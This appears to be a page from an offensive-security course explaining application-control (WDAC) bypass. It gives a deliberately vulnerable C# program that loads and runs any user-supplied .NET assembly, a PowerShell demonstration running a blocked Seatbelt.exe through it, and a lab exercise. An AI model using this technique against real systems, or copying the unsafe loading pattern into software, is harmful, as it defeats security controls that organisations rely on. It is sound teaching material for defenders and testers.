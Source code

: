 There are many different classes of application vulnerability such as DLL & COM hijacks, overflows, double-freeing, deserialization, and more.  Under the correct conditions, some of these can lead to a WDAC bypass.  WDAC does a good job at ensuring that a trusted app can't load untrusted modules and/or code.  For instance, DLL hijacks don't typically bypass WDAC.  The type of vulnerability that is most likely to result in a WDAC bypass is one where code is executed "inside" the trusted application.

We won't study each vulnerability class - this example shows how an unsafe use of reflection could be abused.  Reflection is a programming paradigm often used in Java and C# to dynamically create an instance of a type at runtime.

Consider the following C#:

using System.IO;
using System.Reflection;

namespace VulnerableApp;

internal static class Program
{
    public static void Main(string[] args)
    {
        var bytes = File.ReadAllBytes(args[0]);
        var asm = Assembly.Load(bytes);

        asm.EntryPoint.Invoke(null, new object[]
        {
            new string[] { }
        });
    }
}

  

This application takes in a path to a .NET assembly on disk, and reads it as a raw byte array.  It passes those bytes to the `Assembly.Load` method, which loads the assembly into the `AppDomain` of itself.  After the assembly has been loaded, it calls its main entry point.  This works as a WDAC bypass because this trusted application is taking and loading content from an untrusted (user-supplied) location, similar to how a LOLBAS' work.

If, for example, we had `Seatbelt.exe` on the desktop, it can't execute it directly but it can via this app.

PS C:\Users\rasta> .\Desktop\Seatbelt.exe
Program 'Seatbelt.exe' failed to run: Your organization used Device Guard to block this app. Contact your support person for more info

PS C:\Users\rasta> & 'C:\Program Files\LegitApp\VulnerableApp.exe' .\Desktop\Seatbelt.exe


                        %&&@@@&&
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                        &%%&&&%%%%%        v1.1.1         ,(((&%%%%%%%%%%%%%%%%%,>
                         #%%%%##,

  

This is obviously a contrived example and the "exploitability" would depend on if and where the vulnerable code was exposed to the user.

  

  **EXERCISE**  
  
Find and exploit the vulnerable .NET application on **Workstation 3**.



